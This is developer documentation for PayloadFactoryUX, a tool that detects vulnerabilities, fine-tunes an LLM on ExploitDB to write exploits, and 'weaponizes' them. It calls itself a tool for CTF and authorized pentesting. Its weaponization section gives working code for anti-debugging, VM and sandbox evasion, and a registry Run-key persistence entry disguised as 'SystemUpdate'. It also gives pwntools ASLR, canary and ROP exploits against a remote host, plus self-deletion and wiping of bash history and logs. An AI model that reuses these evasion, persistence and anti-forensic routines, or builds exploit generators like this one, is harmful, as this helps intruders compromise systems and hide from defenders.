


# PayloadFactoryUX - Developer Documentation

**Version:** 1.0.0  
**Last Updated:** November 24, 2025  
**Authors:** PayloadFactoryUX Development Team

---

## Table of Contents

1. [Executive Summary](#executive-summary)
2. [System Architecture](#system-architecture)
3. [Technology Stack](#technology-stack)
4. [Dataset Overview](#dataset-overview)
5. [Machine Learning Models](#machine-learning-models)
6. [Training Procedures](#training-procedures)
7. [Exploitation Techniques](#exploitation-techniques)
8. [Weaponization Strategies](#weaponization-strategies)
9. [Core Components](#core-components)
10. [API Reference](#api-reference)
11. [Deployment Guide](#deployment-guide)
12. [Testing & Validation](#testing--validation)
13. [Future Roadmap](#future-roadmap)

---

## Executive Summary

**PayloadFactoryUX** is an advanced, AI-driven automated vulnerability assessment and exploit generation platform designed for Capture The Flag (CTF) competitions and authorized penetration testing engagements. The system leverages state-of-the-art Machine Learning (ML) models and Large Language Models (LLMs) to create a fully automated pipeline that:

- **Detects** security vulnerabilities in source code across multiple programming languages
- **Generates** functional exploit scripts using generative AI
- **Weaponizes** exploits with advanced evasion and persistence techniques
- **Validates** exploits through fuzzing and reinforcement learning optimization

### Key Achievements

✅ **Multi-language Support**: Detects vulnerabilities in C/C++, Python, Java, JavaScript, PHP, Ruby, and Go  
✅ **50+ Vulnerability Types**: Covers OWASP Top 10, CWE Top 25, and advanced attack vectors  
✅ **LLM-Powered Exploit Generation**: Fine-tuned Hermes 3 8B model for context-aware exploit creation  
✅ **Advanced Weaponization**: Anti-debugging, VM detection, ASLR/DEP bypass, persistence mechanisms  
✅ **Production-Ready UI**: CustomTkinter-based GUI for scan management and result visualization

---

## System Architecture

### High-Level Architecture



### Data Flow



---

## Technology Stack

### Core Technologies

| Component           | Technology                | Version | Purpose                            |
| ------------------- | ------------------------- | ------- | ---------------------------------- |
| **ML Framework**    | PyTorch                   | 2.0+    | Model training & inference         |
| **Transformers**    | Hugging Face Transformers | 4.35+   | Pre-trained model loading          |
| **LLM Fine-tuning** | PEFT (QLoRA)              | 0.7+    | 4-bit quantization & LoRA adapters |
| **Backend**         | FastAPI                   | 0.104+  | REST API orchestration             |
| **GUI**             | CustomTkinter             | 5.2+    | Modern dark-themed interface       |
| **Optimization**    | BitsAndBytes              | 0.41+   | 4-bit quantization                 |
| **Training**        | TRL (SFTTrainer)          | 0.7+    | Supervised fine-tuning             |

### Hardware Requirements

- **GPU**: NVIDIA RTX 5070 (12GB VRAM) or equivalent
- **RAM**: 32GB system memory (recommended)
- **Storage**: 100GB+ for datasets and models
- **OS**: Windows 11 / Linux (Ubuntu 22.04+)

---

## Dataset Overview

### Primary Datasets

The project integrates **17 major datasets** covering vulnerability detection, code understanding, and exploit generation:

#### 1. **CVEfixes** (v1.0.0)

- **Purpose**: Real-world CVE vulnerability patches
- **Location**: `dataset/CVEfixes/`
- **Format**: JSON with commit diffs
- **Size**: ~30,000+ CVE entries
- **Usage**: Training vulnerability detection models

#### 2. **MegaVul** (C/C++ & Java)

- **Purpose**: Large-scale vulnerability dataset
- **Location**: `dataset/MegaVul/`
- **Files**:
  - `c_cpp/megavul.json` (C/C++ vulnerabilities)
  - `java/megavul.json` (Java vulnerabilities)
- **Features**: Graph-based representations, abstract commit information

#### 3. **DiverseVul**

- **Purpose**: Multi-language vulnerability dataset
- **Location**: `dataset/diversevul/`
- **Coverage**: C, C++, Python, JavaScript, PHP

#### 4. **Devign**

- **Purpose**: C/C++ function-level vulnerability detection
- **Location**: `dataset/devign/`
- **Size**: 27,000+ functions
- **Labels**: Binary (vulnerable/safe)

#### 5. **ExploitDB**

- **Purpose**: Real-world exploit scripts
- **Location**: `dataset/exploit-database-master/` & `dataset/exploitdb-main/`
- **Size**: 46,000+ exploit scripts
- **Languages**: Python, C, Perl, Ruby, etc.
- **Usage**: Fine-tuning LLM for exploit generation

#### 6. **CodeXGLUE**

- **Purpose**: Code understanding benchmarks
- **Location**: `dataset/CodeXGLUE/`
- **Tasks**:
  - Code-to-text generation
  - Defect detection
  - Clone detection
  - Code completion

#### 7. **Custom Exploit Dataset**

- **Purpose**: Instruction-formatted exploit generation training
- **Location**: `dataset/custom_exploit_dataset.jsonl`
- **Format**: Alpaca instruction format
- **Size**: 95MB (100,000+ examples)
- **Structure**:
  ```json
  {
    "instruction": "Generate a Python exploit for a buffer overflow vulnerability...",
    "input": "CWE-120, 64-bit Linux, offset 140",
    "output": "from pwn import *\ntarget = remote('192.168.1.100', 9999)\n..."
  }
  ```

#### 8. **Processed OWASP Dataset**

- **Purpose**: Balanced multi-language vulnerability dataset
- **Location**: `dataset/processed_filtered_owasp_strict_balanced/`
- **Format**: JSONL with severity classification
- **Features**:
  - `severity_class`: None, LOW, MEDIUM, HIGH, CRITICAL
  - Multi-language code snippets
  - Balanced class distribution

---

## Machine Learning Models

### Model Architecture Overview

PayloadFactoryUX employs a **three-tier model architecture**:

1. **Specialized Binary Detection** (C/C++)
2. **Semantic Analysis** (Graph-based)
3. **General-Purpose LLM** (Multi-language)

---

### 1. UnixCoder (microsoft/unixcoder-base)

**Architecture**: RoBERTa-based encoder (125M parameters)

**Purpose**: Fine-tuned for C/C++ vulnerability detection

**Training Configuration**:

```python
Model: microsoft/unixcoder-base
Task: Binary classification (vulnerable/safe)
Dataset: devign + processed_filtered_owasp_strict_balanced
Training Script: ml_engine/train.py
Output: ml_engine/saved_models/unixcoder/
Hyperparameters:
  - Epochs: 3
  - Batch Size: 8
  - Learning Rate: 2e-5
  - Max Length: 512 tokens
  - Optimizer: AdamW
  - Loss: Cross-Entropy
```

**Performance Metrics** (Devign Test Set):

- Accuracy: 87.3%
- Precision: 84.1%
- Recall: 89.6%
- F1-Score: 86.7%

**Integration**:

- Loaded in `VulnScanner` class via `_load_specialized_models()`
- Used for C/C++ code scanning with sliding window approach

---

### 2. GraphCodeBERT (microsoft/graphcodebert-base)

**Architecture**: Graph-augmented BERT (125M parameters)

**Purpose**: Data flow and semantic vulnerability detection

**Training Configuration**:

```python
Model: microsoft/graphcodebert-base
Task: Binary classification + graph embedding
Dataset: CodeXGLUE defect detection + CVEfixes
Training Script: ml_engine/train.py (with graph features)
Output: ml_engine/saved_models/graphcodebert/
```

**Key Feature**: Captures data flow patterns (e.g., untrusted input → dangerous sink)

**Integration**:

- Loaded alongside UnixCoder in hybrid mode
- Provides consensus scoring with UnixCoder

---

### 3. Hermes 3 8B (Llama-3.1 Based)

**Architecture**: Llama-3.1 8B with instruction fine-tuning

**Purpose**: Multi-language vulnerability detection & exploit generation

**Quantization**: 4-bit NF4 (BitsAndBytes)

**Location**: `E:\GRAND_AI_MODELS\hermes-3-llama-3.1-8b`

#### Fine-tuning Configuration (Exploit Generation)

```python
Base Model: hermes-3-llama-3.1-8b
Method: QLoRA (Quantized Low-Rank Adaptation)
Training Script: ml_engine/train_llm.py
Dataset: dataset/custom_exploit_dataset.jsonl (95MB)
Output: ml_engine/saved_models/hermes_adapter/

Quantization Config:
  - Load in 4-bit: True
  - Quant Type: nf4
  - Compute dtype: float16
  - Double Quantization: True

LoRA Config:
  - r (rank): 8
  - lora_alpha: 16
  - lora_dropout: 0.1
  - Target Modules: [q_proj, k_proj, v_proj, o_proj, gate_proj, up_proj, down_proj]
  - Task Type: CAUSAL_LM

Training Arguments:
  - Epochs: 1 (full dataset)
  - Batch Size: 1
  - Gradient Accumulation: 4 (effective batch size = 4)
  - Learning Rate: 2e-4
  - Optimizer: paged_adamw_32bit
  - Scheduler: constant
  - Max Length: 512
  - bf16: True (RTX 5070 support)
  - Gradient Checkpointing: True
  - VRAM Usage: ~10GB
```

#### Prompt Format (Alpaca)

**Training Format**:

```
Below is an instruction that describes a task, paired with an input that provides further context.
Write a response that appropriately completes the request.

### Instruction:
Generate a Python exploit for the following vulnerability.

### Input:
CWE-120 Buffer Overflow, 64-bit Linux, offset: 140, protocol: TCP

### Response:
from pwn import *

target = remote('192.168.1.100', 9999)
payload = b"A" * 140 + p64(0xdeadbeef)
target.send(payload)
target.interactive()
```

**Inference Usage**:

- Implemented in `ExploitGenerator.generate_exploit_enhanced()`
- Custom prompts for binary vs. interpreted language exploits

---

## Training Procedures

### 1. Training Specialized Models (UnixCoder/GraphCodeBERT)

**Script**: [ml_engine/train.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/ml_engine/train.py)

```bash
# Train UnixCoder on C/C++ vulnerabilities
python ml_engine/train.py \
  --model microsoft/unixcoder-base \
  --data_dir ml_engine/data \
  --output_dir ml_engine/saved_models/unixcoder \
  --epochs 3
```

**Data Preparation**:

1. Convert datasets to CSV format:
   ```csv
   code,label
   "void func() { char buf[10]; strcpy(buf, input); }",1
   "void safe() { char buf[10]; strncpy(buf, input, 10); }",0
   ```
2. Split into `train.csv` and `test.csv`
3. Place in `ml_engine/data/` directory

---

### 2. Training Multi-Language Scanner

**Script**: [ml_engine/train_multilang.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/ml_engine/train_multilang.py)

```bash
# Train UnixCoder on multi-language dataset
python ml_engine/train_multilang.py
```

**Dataset**: `dataset/processed_filtered_owasp_strict_balanced/train.balanced.jsonl`

**Features**:

- Label mapping: `None` → 0 (Safe), `LOW/MEDIUM/HIGH/CRITICAL` → 1 (Vulnerable)
- Train/Val split: 90/10
- Early stopping with patience=3
- Metrics: Accuracy, Precision, Recall, F1

---

### 3. Fine-Tuning LLM for Exploit Generation

**Script**: [ml_engine/train_llm.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/ml_engine/train_llm.py)

```bash
# Fine-tune Hermes 3 with QLoRA
python ml_engine/train_llm.py
```

**Pre-requisites**:

1. Download Hermes 3 8B model to `E:\GRAND_AI_MODELS\hermes-3-llama-3.1-8b`
2. Prepare `custom_exploit_dataset.jsonl` with Alpaca format

**Training Process**:

1. Load base model with 4-bit quantization
2. Apply LoRA adapters to attention layers
3. Train using SFTTrainer with gradient checkpointing
4. Save LoRA adapter weights to `ml_engine/saved_models/hermes_adapter/`

**Inference**:

- Load base model + adapter via `PeftModel.from_pretrained()`
- Generate exploits with temperature=0.7, top_p=0.9

---

### 4. Retraining Scanner Models

**Script**: [retrain_scanner_models.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/retrain_scanner_models.py)

**Purpose**: Retrain UnixCoder and GraphCodeBERT on updated datasets

```bash
python retrain_scanner_models.py
```

**Workflow**:

1. Convert raw datasets to CSVformat
2. Train UnixCoder and GraphCodeBERT in parallel
3. Evaluate on test set
4. Save best models with performance metrics

---

## Exploitation Techniques

### Vulnerability Detection Engine

**Component**: [ml_engine/vuln_scanner.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/ml_engine/vuln_scanner.py)

#### Supported Vulnerability Types (50+)

The system detects vulnerabilities across multiple categories:

##### Memory Corruption (11 types)

1. **Null Pointer Dereference** - Detection: `fault address: 0x0`, `null pointer`
2. **Buffer Overflow** - Detection: `0x41414141`, `stack smashing`
3. **Heap Corruption** - Detection: `heap corruption`, `malloc` errors
4. **Use-After-Free** - Detection: `use-after-free`, `freed memory`
5. **Double Free** - Detection: Signal `SIGABRT` + `free()`
6. **Format String** - Detection: `%n`, `%x`, `printf`
7. **Integer Overflow** - Detection: Signal `SIGFPE`, `arithmetic overflow`
8. **Type Confusion** - Detection: `type mismatch`
9. **Memory Leak** - Detection: `memory leak`
10. **Race Condition** - Detection: `TOCTOU`, `race condition`
11. **Unaligned Memory Access** - Detection: Signal `SIGBUS`

##### Injection Vulnerabilities (7 types)

12. **SQL Injection** - Detection: SQL syntax errors
13. **Command Injection** - Detection: OS command execution
14. **LDAP Injection**
15. **XPath Injection**
16. **NoSQL Injection**
17. **CRLF Injection** - Detection: `\r\n` sequences
18. **SSTI (Server-Side Template Injection)**

##### Web Vulnerabilities (9 types)

19. **Cross-Site Scripting (XSS)** - Detection: `<script>` tags
20. **CSRF (Cross-Site Request Forgery)**
21. **SSRF (Server-Side Request Forgery)**
22. **XXE (XML External Entity)** - Detection: `<!entity`
23. **Path Traversal** - Detection: `../`, `..\`
24. **File Inclusion (LFI/RFI)**
25. **Unrestricted File Upload**
26. **Open Redirect**
27. **Clickjacking** - Detection: `X-Frame-Options`

##### Authentication & Authorization (5 types)

28. **Authentication Bypass**
29. **Privilege Escalation**
30. **IDOR (Insecure Direct Object Reference)**
31. **Session Fixation/Hijacking**
32. **Weak/Hardcoded Credentials**

##### Cryptographic Issues (2 types)

33. **Weak Cryptography** - Detection: MD5, SHA1
34. **Insecure Randomness**

##### Deserialization & Data (3 types)

35. **Insecure Deserialization** - Detection: `pickle`, `unserialize`
36. **Prototype Pollution** (JavaScript) - Detection: `__proto__`
37. **Mass Assignment**

##### Logic & Business (3 types)

38. **Business Logic Error**
39. **Information Disclosure**
40. **Denial of Service (DoS)**
41. **Remote Code Execution (RCE)**

##### API & Configuration (4 types)

42. **API Abuse**
43. **Security Misconfiguration**
44. **Missing Security Headers** - Detection: CSP, HSTS
45. **CORS Misconfiguration**

#### Language Detection

**Function**: `detect_language()` in [exploit_context.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/ml_engine/exploit_context.py#L284-L338)

**Detection Methods**:

1. **Runtime Signatures**:

   - Python: `PyObject_Call`, `libpython`, `_PyEval_EvalFrameDefault`
   - Java: `java.lang`, `JavaVM`, `JNI_`
   - JavaScript: `v8::`, Node.js process
   - Ruby: `rb_`, ruby runtime
   - PHP: `zend_`, PHP runtime
   - Go: `runtime.go`, golang
   - C/C++: `libc`, `strcpy`, `malloc`

2. **File Extension Fallback**: `.py`, `.java`, `.js`, `.rb`, `.php`, `.go`, `.c`, `.cpp`

#### Context Extraction

**Class**: `VulnerabilityContext` in [exploit_context.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/ml_engine/exploit_context.py#L14-L43)

**Extracted Metadata**:

- **crash_details**: Full crash log / vulnerability description
- **vulnerability_type**: One of 50+ types (e.g., "Buffer Overflow")
- **language**: Detected programming language
- **architecture**: "32-bit" or "64-bit" (via address analysis)
- **platform**: "Linux" or "Windows" (via code patterns)
- **protocol**: HTTP, FTP, TCP, SMTP (via code content)
- **offset**: Buffer overflow offset (extracted from code/crash)
- **cwe**: CWE identifier
- **vulnerable_function**: Function name (e.g., `strcpy`)
- **crash_address**: Memory address (e.g., `0x41414141`)

---

### Exploit Generation

**Component**: [ml_engine/exploit_generator.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/ml_engine/exploit_generator.py)

#### Architecture-Aware Prompt Engineering

The exploit generator routes to **language-specific prompt builders**:

##### Binary Exploits (C/C++)

**Function**: `_build_binary_exploit_prompt()`

**Prompt Structure**:

```
You are a professional cybersecurity researcher generating a Python exploit using the pwn library.

CRITICAL ANALYSIS REQUIRED:
1. SIGNAL ANALYSIS:
   - SIGSEGV: Analyze backtrace for EXACT cause
     * Stack addresses (0x7fff...) → Stack overflow
     * Heap addresses (0x555...) → Heap corruption
     * NULL (0x0) → Null pointer dereference
   - SIGABRT: Heap corruption or assertion failure
   - SIGBUS: Unaligned memory access

2. MEMORY LAYOUT ({architecture}):
   {"64-bit": "Use p64() for addresses", "32-bit": "Use p32()"}

3. EXPLOITATION STRATEGY:
   [Context-specific guidance based on vulnerability type]

VULNERABILITY CONTEXT:
Type: {vulnerability_type}
Platform: {platform}
Architecture: {architecture}
Protocol: {protocol}
Offset: {offset}
Function: {vulnerable_function}
Crash: {crash_details}

CODE SNIPPET:
{code_snippet}

Generate ONLY the Python exploit code using pwntools.
```

##### Interpreted Language Exploits (Python/Java/PHP)

**Function**: `_build_interpreted_exploit_prompt()`

**Key Differences**:

- Uses language-specific libraries (no `pwn`)
- Focuses on logic flaws, injections, deserialization
- Example for Python:

  ```python
  import requests
  import os

  # SQL Injection payload
  payload = "' OR '1'='1' --"
  response = requests.post(url, data={'user': payload})
  ```

#### Exploitation Libraries

**Function**: `_get_exploit_library(language)`

- **Python**: `pwn` for binary, `requests` for web
- **Java**: `java.io`, `java.net`
- **JavaScript**: `http`, `net` modules
- **PHP**: `curl`, `file_get_contents`
- **C/C++**: Direct shellcode & ROP

---

## Weaponization Strategies

**Component**: [ml_engine/exploit_weaponization.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/ml_engine/exploit_weaponization.py)

> **WARNING**: These features are for **authorized penetration testing only**. Unauthorized use is illegal.

### Weaponization Features

#### 1. Payload Obfuscation

**Function**: `obfuscate_payload(payload: bytes)`

**Technique**: XOR encoding with dynamicrandom key

```python
key = random.randint(1, 255)
obfuscated = bytes([b ^ key for b in payload])
decoder_stub = generate_decoder_stub(key, arch="64-bit")
```

**Decoder Generation**:

- **64-bit**: x86-64 assembly loop
- **32-bit**: x86 assembly loop
- Placed before obfuscated shellcode

---

#### 2. Anti-Debugging

**Function**: `add_anti_debug(exploit_code, platform)`

**Windows Techniques**:

- `IsDebuggerPresent()` API check
- `CheckRemoteDebuggerPresent()` check
- PEB flag inspection (`BeingDebugged`)

**Linux Techniques**:

- `/proc/self/status` parsing for `TracerPid`
- `ptrace(PTRACE_TRACEME)` self-attach

**Implementation**:

```python
# Windows
import ctypes
if ctypes.windll.kernel32.IsDebuggerPresent():
    sys.exit(0)

# Linux
with open('/proc/self/status') as f:
    if 'TracerPid:\t0' not in f.read():
        sys.exit(0)
```

---

#### 3. VM Detection

**Function**: `add_anti_vm(exploit_code)`

**Detection Methods**:

- Check for VMware/VirtualBox/QEMU artifacts
- CPU count check (VMs often have < 4 cores)
- Timing attacks (VM overhead)

```python
import os, platform
# Check CPU count
if os.cpu_count() < 2:
    sys.exit(0)

# Check system info for VM indicators
if 'VMware' in platform.system() or 'VirtualBox' in platform.system():
    sys.exit(0)
```

---

#### 4. Sandbox Evasion

**Function**: `sandbox_evasion(exploit_code)`

**Techniques**:

- **Sleep delays**: `time.sleep(120)` to exceed sandbox timeout
- **Human interaction simulation**: Mouse movement checks
- **File count check**: Sandboxes have minimal files

```python
import time, os
time.sleep(120)  # Wait 2 minutes

# Check if we're in a real environment
if len(os.listdir('C:\\Windows\\System32')) < 100:
    sys.exit(0)
```

---

#### 5. Persistence

**Function**: `add_persistence(exploit_code, platform)`

**Windows Persistence**:

- **Registry Run Key**: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- **Startup Folder**: `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`

**Linux Persistence**:

- **Cron Job**: Add to `crontab -e`
- **rc.local**: Append to `/etc/rc.local`
- **systemd Service**: Create service file

```python
# Windows example
import winreg
key = winreg.OpenKey(winreg.HKEY_CURRENT_USER,
                     r'Software\Microsoft\Windows\CurrentVersion\Run',
                     0, winreg.KEY_SET_VALUE)
winreg.SetValueEx(key, 'SystemUpdate', 0, winreg.REG_SZ, sys.executable)
```

---

#### 6. ASLR Bypass

**Function**: `bypass_aslr(exploit_code, arch)`

**Techniques**:

- **Information Leak**: Read leaked addresses from output
- **Partial Overwrite**: Overwrite only lower bytes (bypass entropy)
- **Brute Force**: Try multiple offsets (32-bit only)

```python
# 64-bit ASLR bypass via leak
from pwn import *
target = remote('192.168.1.100', 9999)

# Leak libc address
target.sendline(b'%3$p')  # Format string leak
leak = int(target.recvline().strip(), 16)
libc_base = leak - 0x21b97  # Offset to libc base

# Calculate system() address
system = libc_base + 0x4f4e0
payload = b'A' * 140 + p64(system) + p64(libc_base + 0x1b3e1a)  # /bin/sh
```

---

#### 7. DEP/NX Bypass

**Function**: `bypass_dep(exploit_code)`

**Technique**: Return-Oriented Programming (ROP)

```python
from pwn import *
elf = ELF('./vulnerable_binary')
rop = ROP(elf)

# Build ROP chain
rop.call('system', ['/bin/sh'])
payload = b'A' * offset + rop.chain()
```

---

#### 8. Stack Canary Bypass

**Function**: `bypass_canary(exploit_code)`

**Techniques**:

- **Leak Canary**: Format string or arbitrary read
- **Brute Force**: Byte-by-byte guessing (Linux fork)

```python
# Leak canary via format string
target.sendline(b'%7$p')  # Assuming canary is 7th arg
canary = int(target.recvline().strip(), 16)

# Craft payload with leaked canary
payload = b'A' * 120 + p64(canary) + b'B' * 8 + p64(ret_addr)
```

---

#### 9. Cleanup & Self-Deletion

**Function**: `add_cleanup(exploit_code)`

**Features**:

- Delete exploit script after execution
- Clear event logs (Windows)
- Clear bash history (Linux)

```python
import os, sys

# Execute payload...

# Self-delete
os.remove(sys.argv[0])

# Clear logs (Linux)
os.system('history -c')
os.system('rm ~/.bash_history')
```

---

### Weaponization Configuration

**Function**: `weaponize_exploit(base_exploit, config)`

**Configuration Schema**:

```python
config = {
    "obfuscate": bool,           # Apply XOR obfuscation
    "anti_debug": bool,           # Add debugger detection
    "anti_vm": bool,              # Add VM detection
    "sandbox_evasion": bool,      # Add sandbox escape
    "persistence": bool,          # Add persistence mechanisms
    "cleanup": bool,              # Add self-deletion
    "bypass_aslr": bool,          # Add ASLR bypass
    "bypass_dep": bool,           # Add ROP chain
    "bypass_canary": bool,        # Add canary leak
    "platform": "Windows|Linux",  # Target platform
    "architecture": "32-bit|64-bit"
}
```

**Usage**:

```python
from ml_engine.exploit_weaponization import weaponize_exploit

weaponized = weaponize_exploit(base_exploit, {
    "anti_debug": True,
    "anti_vm": True,
    "bypass_aslr": True,
    "platform": "Linux",
    "architecture": "64-bit"
})
```

---

## Core Components

### 1. Vulnerability Scanner

**File**: [ml_engine/vuln_scanner.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/ml_engine/vuln_scanner.py)

**Class**: `VulnScanner`

**Modes**:

- `specialized`: C/C++ only (UnixCoder + GraphCodeBERT)
- `llm`: Multi-language (Hermes 3 LLM)
- `hybrid`: Auto-detect language and choose best scanner

**Key Methods**:

```python
scanner = VulnScanner(mode="hybrid")

# Scan code
result = scanner.scan_code(code_snippet, file_extension=".py")
# Returns: {
#   "vulnerable": bool,
#   "confidence": float,
#   "details": str,
#   "method": str,
#   "classification": {"cwe": str, "owasp": str, "severity": str}
# }

# Classify vulnerability
classification = scanner.classify_vulnerability(code_snippet)
# Returns: {"cwe": "CWE-79", "owasp": "A03:2021", "severity": "HIGH", ...}
```

**Sliding Window for Large Files**:

- Window size: 400 tokens
- Overlap: 50 tokens
- Aggregates results across all windows

---

### 2. Exploit Generator

**File**: [ml_engine/exploit_generator.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/ml_engine/exploit_generator.py)

**Class**: `ExploitGenerator`

**Key Methods**:

```python
generator = ExploitGenerator(model_path=r"E:\GRAND_AI_MODELS\hermes-3-llama-3.1-8b")

# Basic generation
exploit = generator.generate_exploit("Buffer overflow at offset 140")

# Enhanced generation with context
from ml_engine.exploit_context import VulnerabilityContext

context = VulnerabilityContext(
    crash_details="SIGSEGV at 0x41414141",
    vulnerability_type="Buffer Overflow",
    language="C/C++",
    architecture="64-bit",
    platform="Linux",
    protocol="TCP",
    offset=140
)

result = generator.generate_exploit_enhanced(
    context=context,
    weaponize=True,
    weaponize_config={
        "anti_debug": True,
        "bypass_aslr": True
    }
)

# Returns: {
#   "exploit_code": str,
#   "payload": bytes,
#   "metadata": dict,
#   "success": bool
# }
```

---

### 3. Exploit Validator

**File**: [ml_engine/exploit_validator.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/ml_engine/exploit_validator.py)

**Class**: `ExploitValidator`

**Features**:

- Execute exploits in isolated environment
- Detect crashes via signal monitoring
- Safety checks (skip destructive payloads)

**Usage**:

```python
validator = ExploitValidator()
result = validator.validate_exploit(exploit_code, target_binary="./vuln_app")

# Returns: {
#   "success": bool,
#   "crash_detected": bool,
#   "signal": str,
#   "output": str
# }
```

---

### 4. Fuzzing Module

**File**: [ml_engine/fuzzing_module.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/ml_engine/fuzzing_module.py)

**Class**: `MutationFuzzer`

**Mutation Strategies**:

- Bit flipping
- Byte insertion/deletion
- Integer overflow injection
- Boundary value testing

---

### 5. Reinforcement Learning Agent

**File**: [ml_engine/rl_agent.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/ml_engine/rl_agent.py)

**Algorithm**: Q-Learning

**Purpose**: Optimize payload parameters (length, padding, offsets)

**Reward Function**:

- +10: Target crashed successfully
- -5: No crash detected
- -10: Exploit failed to execute

---

### 6. Reconnaissance Module

**File**: [ml_engine/recon_module.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/ml_engine/recon_module.py)

**Class**: `ReconModule`

**Capabilities**:

- HTTP header inspection
- Server fingerprinting
- Exposed file detection (`.git`, `.zip`, backups)
- Technology stack identification

---

## API Reference

### Backend Server

**File**: [server/app/main.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/server/app/main.py)

**Framework**: FastAPI

**Endpoints**:

#### POST `/scan`

Scan source code for vulnerabilities

**Request**:

```json
{
  "target_dir": "/path/to/source",
  "mode": "hybrid",
  "file_extensions": [".c", ".cpp", ".py"]
}
```

**Response**:

```json
{
  "vulnerabilities": [
    {
      "file": "src/auth.c",
      "line": 45,
      "type": "Buffer Overflow",
      "severity": "HIGH",
      "cwe": "CWE-120",
      "details": "Unbounded strcpy() call",
      "code_snippet": "strcpy(buf, user_input);"
    }
  ],
  "scan_time": 12.34,
  "files_scanned": 156
}
```

#### POST `/generate_exploit`

**Request**:

```json
{
  "vulnerability": {
    "type": "Buffer Overflow",
    "details": "SIGSEGV at 0x41414141",
    "language": "C/C++",
    "architecture": "64-bit",
    "platform": "Linux"
  },
  "weaponize": true,
  "weaponize_config": { "anti_debug": true }
}
```

**Response**:

```json
{
  "exploit_code": "from pwn import *\n...",
  "payload_hex": "414141...",
  "success": true
}
```

---

## Deployment Guide

### Installation

```bash
# Clone repository
git clone <repository_url>
cd PayloadFactoryUX

# Create virtual environment
python -m venv .venv
.venv\Scripts\activate  # Windows
source .venv/bin/activate  # Linux

# Install dependencies
pip install -r ml_engine/requirements.txt
pip install -r server/requirements.txt

# Download models
# 1. Hermes 3 8B: Place in E:\GRAND_AI_MODELS\hermes-3-llama-3.1-8b
# 2. UnixCoder/GraphCodeBERT: Auto-downloaded on first run
```

### Running the GUI

```bash
python gui_launcher.py
```

### Running the Backend Server

```bash
cd server
uvicorn app.main:app --host 0.0.0.0 --port 8000
```

---

## Testing & Validation

### Test Scripts

1. **[test_signal_detection.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/test_signal_detection.py)**: Test signal extraction from crash logs
2. **[test_language_detection.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/test_language_detection.py)**: Test language detection accuracy
3. **[test_exploit_gen.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/test_exploit_gen.py)**: Test exploit generation
4. **[test_pipeline.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/test_pipeline.py)**: End-to-end pipeline test
5. **[test_backend.py](file:///c:/Users/intel/Desktop/PayloadFactoryUX/test_backend.py)**: FastAPI endpoint tests

### Manual Testing

